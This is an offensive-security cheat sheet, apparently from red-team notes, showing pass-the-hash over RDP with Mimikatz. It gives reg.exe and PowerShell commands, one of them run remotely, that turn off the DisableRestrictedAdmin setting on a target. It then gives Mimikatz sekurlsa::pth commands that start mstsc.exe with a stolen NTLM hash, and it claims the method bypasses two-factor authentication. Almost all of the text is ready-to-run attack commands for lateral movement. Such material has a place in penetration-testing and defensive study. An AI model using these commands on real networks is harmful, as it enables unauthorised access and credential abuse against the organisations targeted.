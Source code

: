 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# Mimikatz

## 01 - Enable Restricted Admin Mode

> [!IMPORTANT] Conditions
> Enable restricted admin mode.
>> [!INFO]
>> This is will bypass 2FA (two factor authentication) if it was configured in enterprise networks. It allows RDP authentication with Pass The Hash methods.

### 1.1 - Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

### 1.2 - PowerShell

```
PS C:\> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force }
```

## 02 - Run RDP Remote Session 

After passing the hash. Create a new process to authenticate RDP. This is much easier to do.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc.exe /v:<IP> /restrictedadmin"
```

You can do this in one-liner.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc.exe /v:<IP> /restrictedadmin"
```

---
## References

- [ederml's Blog: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)